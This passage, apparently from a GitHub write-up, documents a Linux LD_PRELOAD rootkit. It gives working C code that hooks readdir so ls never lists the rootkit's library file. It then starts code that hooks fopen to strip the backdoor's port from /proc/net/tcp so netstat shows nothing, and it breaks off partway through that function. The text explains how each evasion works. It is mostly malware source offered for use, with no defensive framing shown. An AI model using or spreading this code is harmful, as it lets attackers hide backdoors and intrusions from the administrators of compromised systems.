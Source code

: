 ```c
/* Hide from ls */
struct dirent *readdir(DIR *dirp) {
	struct dirent *(*real_readdir) (DIR *dir);
  	real_readdir = dlsym(RTLD_NEXT, "readdir");
	struct dirent *dir;

	/* finds file that doesn't contain rootkit.so */
	while (dir = real_readdir(dirp))
		if (strstr(dir->d_name, LIBRARY_FILENAME) == 0)
			break;

	return dir;
}
```

As you can see, our code just wraps the real `readdir` syscall, which gets the next directory entry given a directory pointer. However, our code continues calling this function to get the next entry, until it finds one that doesn't contain our rootkit's filename. This way `ls`, and any other utility reading the contents of a directory, will skip over our rootkit.

After including this in the rootkit, `ls` will work as normal, except that it will never output a trace of our `rootkit.so` file.

> Note: using `ls -ld rootkit.so` will still work as it uses a different system call to gather information about the file. This was helpful because it allowed us to ensure that the evasion feature was working.

#### netstat

Hiding from `netstat` is slightly more involved, however the approach is still pretty simple. `netstat` works by reading information from the special file `/proc/net/tcp` into a buffer and then writing/formatting its contents out to the terminal. The file `/proc/net/tcp` is a proc file that acts as a window into the operating system to gain information about active TCP connections.

Since `netstat`, has to read from this file, we can hook the `fopen` syscall used to read this proc file and filter out evidence of our backdoor TCP connections before returning the its contents to the user.

To achieve this, we read each line from `/proc/net/tcp`, and write it to a temporary file if it doesn't contain evidence of our backdoor (the port in this case). Then we just return a pointer to the temporary file, so that `netstat` will read from our clean dummy file as opposed to `/proc/net/tcp`.

```c
/* Hide from netstat */
FILE *fopen(const char *pathname, const char *mode)
{
	FILE *(*real_fopen)(const char *pathname, const char *mode);
	real_fopen = dlsym(RTLD_NEXT, "fopen");

	/* If file is not /proc/net/tcp, run fopen normally */
	/* /proc/net/tcp -> requests info about active tcp connections from the OS */
	if (strstr(pathname, "/proc/net/tcp") == NULL)
		return real_fopen(pathname, mode);

	/* Convert port to string */
	char S_BIND_PORT[6];
	itoa(BIND_PORT, S_BIND_PORT, 10);

	/* Create temporary file to store clean data */
	char line[256];
	FILE *temp = tmpfile();
	FILE *fp = real_fopen(pathname, mode);

	/* Copy each line from /proc/net/tcp, excluding lines containing backdoor port number */
	while (fgets(line, sizeof(line), fp))
	{
```